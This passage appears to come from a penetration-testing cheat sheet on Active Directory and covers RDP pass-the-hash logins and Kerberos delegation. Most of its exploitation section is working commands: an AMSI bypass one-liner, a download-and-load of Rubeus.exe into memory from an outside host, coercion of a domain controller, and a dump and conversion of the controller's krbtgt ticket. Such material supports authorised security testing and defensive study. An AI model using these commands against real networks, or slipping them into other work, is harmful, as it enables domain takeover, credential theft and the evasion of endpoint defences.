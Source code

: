 ```
xfreerdp /u:pentestuser /d:my.domain.com /p:mypassword /v:10.X.X.X
xfreerdp /u:pentestuser /d:my.domain.com /pth:aaaaaaaaaabbbbbbbbbbbcccccddddeeecfe /v:10.X.X.X
```
### Checking for delegations
There is three type of delegation in active directory : 
- Unconstrained delegation
- Constrained delegation
- Resource based delegation
#### Unconstrained delegation
- Unconstrained delegation is a feature that a Domain Administrator can set to any Computer inside the domain running services like IIS, MSSQL, etc. 
- Those services usually require access to some back-end database (or some other server), so it can read/modify the database on the authenticated user's behalf.
- When a user authenticates to a computer having kerberos delegation privilege turned on, authenticated user's TGT ticket gets saved to that computer's memory so that the computer can impersonate the authenticated user as and when required for accessing any other services on that user's behalf.

This represents a risk as an attacker with **Administrator privileges** on the computer will be able to dump the tickets and impersonate the users on any machine.
- Enumerating unconstrained delegation with bloodhound query
```
MATCH (c1:Computer)-[:MemberOf*1..]->(g:Group) WHERE g.objectid ENDS WITH '-516' WITH COLLECT(c1.name) AS domainControllers MATCH (c2 {unconstraineddelegation:true}) WHERE NOT c2.name IN domainControllers RETURN c2
```
- Enumerating unconstrained delegation with PowerView
```
Get-DomainComputer -Unconstrained | select-object -property cn
```
**Note**: Domain Controllers have unconstrained delegation set by default; it is not a security misconfiguration.

**Exploiting unconstrained delegation**
Abusing unconstrained delegation requires a privilege access to the computer and the simplest way to exploit is using `Rubeus` tool. The following steps can be performed :
- Open an Admin PowerShell session on the computer and bypass AMSI to avoid detection:
```
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*InitFailed") {$f=$e}};$f.SetValue($null,$true);
```
- Launch Rubeus in memory with execute assembly and list the available tickets : (Rubeus.exe should be at that step saved on the pentester machine)
```
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.80.1:8080/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data);
[Rubeus.Program]::MainString("triage");
```
-  From the pentest machine, force a coerce of any domain controller to the victim machine (the one with unconstrained delegation set). 
```
python3 coercer.py -u pentestuser -d my.domain.com -p MyPassW0rd -t DC.my.domain.com -l computer_having_unconstrained_delegation.my.domain.com
```
- List again the available tickets with Rubeus and extract the new ticket
```
[Rubeus.Program]::MainString("triage")

[Rubeus.Program]::MainString("dump /user:DC$ /service:krbtgt /nowrap");
```
At this step, the ticket will be displayed in base64 encoded format, with space and line return.
It can be copy to a linux machine and converted to ccache file as follows:
```
cat tgt.b64|base64 -d > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
```